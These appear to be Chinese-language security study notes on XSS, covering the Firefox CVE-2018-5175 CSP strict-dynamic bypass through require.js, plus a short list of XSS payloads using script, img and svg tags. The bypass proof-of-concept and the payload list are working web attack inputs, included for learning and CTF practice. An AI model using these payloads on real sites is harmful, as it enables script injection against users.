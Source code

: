   :cat2:**CVE-2018-5175** (利用**add-on**繞過strict-dynamic)：  
  [首先extension和add-on都是些什麼東西？](https://developer.mozilla.org/zh-TW/Add-ons/WebExtensions)  
  legacy-extension就是那些過去以XUL/XPCOM為基礎所建造的擴充，雖然2017/11後基礎已改為Web-extensions，但瀏覽器內部至今還多使用這個機制  
  這裡我們必須了解`manifest`下的`web_accessible_resources`(webextension)以及`contentaccessible flag`(legacy extension)，被這個`url contentaccessible=yes`的resource可以從任何頁面載入，這裡就有個弊端了，**任何頁面載入並且不需要nonce允許**！  
  ```json
  ....
  resource devtools devtools/modules/devtools/
  resource devtools-client-jsonview resouce://devtools/client/jsonview/ contentaccessible=yes
  ....
  ```
  上面是firefox extension下`manifest`的一部分，可以知道`resource://devtools`下面的file都可以從任何頁面載入而不需要nonce的允許，而`resource://devtools/client/jsonview/lib/require.js`也不例外。  
  ```js
  <!-- exploit -->
  csp: strict-dynamic...

  <script data-main="data:,alert(1)"></script>
  <script src="resource://devtools-client-jsonview/lib/require.js"></script>
  ```
  所以我們不需要nonce也能讓`require.js`載入執行，靠script-gadget中提到`require.js`尋找`data-main`屬性，不難理解這個xss的攻擊就會成功bypass csp了！  

  若不是框架中帶有的script-gadget，就從開發者的code中自己找一個，以下為思路：  
  某段script中將`attribute`的值插入`innerHTML`;  
  
以web開發人員的角度推薦幾個工具：  
1. [CSP Evaluator](https://csp-evaluator.withgoogle.com/)  
2. [ChromePlugin-CSP Mitigator](https://chrome.google.com/webstore/detail/csp-mitigator/gijlobangojajlbodabkpjpheeeokhfa)  

以上筆記很大部分取自  
[LoRexxar前端防御从入门到弃坑](https://lorexxar.cn/2017/10/25/csp-paper/)  
[CVE-2018-5175:Universal CSP strict-dynamic bypass in Firefox](https://mksben.l0.cm/2018/05/cve-2018-5175-firefox-csp-strict-dynamic-bypass.html)  
非常推薦閱讀原文  
[迅速查表CSP cheatsheet](http://dogewatch.github.io/2016/12/08/By-Pass-CSP/)


# 正規表達式
js中會用正規表達式來過濾危險字符  
```js
/g -> 全局匹配
/i -> case insensitive
```
參考如下文件：  
[Documentation](https://developer.mozilla.org/zh-CN/docs/Web/JavaScript/Guide/Regular_Expressions#.E9.80.9A.E8.BF.87.E5.8F.82.E6.95.B0.E8.BF.9B.E8.A1.8C.E9.AB.98.E7.BA.A7.E6.90.9C.E7.B4.A2)

# 攻擊手勢  
這裡整理一些攻擊手勢以及比賽中碰到的思路  
* 不同的`<tag>`做利用  
```js
// script
<script>a=prompt;a(1)</script>

// img
<img src=1 onmouseover=alert(1)>
<img src=1 onerror=confirm(1)>
<img src="javascript:alert(1);">

// svg
<svg/onload=alert(1)>

```